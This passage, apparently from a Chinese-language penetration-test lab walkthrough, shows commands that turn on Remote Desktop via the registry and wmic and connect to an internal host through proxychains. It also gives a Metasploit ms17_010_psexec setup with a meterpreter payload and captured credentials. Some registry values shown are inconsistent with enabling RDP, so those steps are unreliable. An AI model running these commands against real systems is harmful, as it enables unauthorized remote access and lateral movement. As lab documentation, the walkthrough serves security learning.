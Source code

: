 > > ```
> > REG ADD \"HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
> > ```
> >
> >  开启2：
> >
> > ```
> > wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
> > ```
> >
> > ```
> > REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
> > ```
> >
> > ```
> > REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
> > ```
> >
> > 
>
> windows server 2008
>
> > 开启：
> >
> > ```
> > REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
> > ```

然后远程连接~，记得用`proxychains`

```
proxychains rdesktop 192.168.52.141
```

Log on to 记得换一下~

![](https://i.loli.net/2021/11/06/OX7UurM9PNTCz2F.png)![](https://i.loli.net/2021/11/07/sVorPe9ClIT52nv.png)

因为有了用户名和密码了
可以用`exploit/windows/smb/ms17_010_psexec`打一个shell回来，但是一直打成蓝屏--

```
use exploit/windows/smb/ms17_010_psexec
set rhost 192.168.52.141
set payload windows/meterpreter/bind_tcp
set lhost 127.0.0.1
set lport 4444
set SMBUser whoami1
set SMBPass Test32141
```
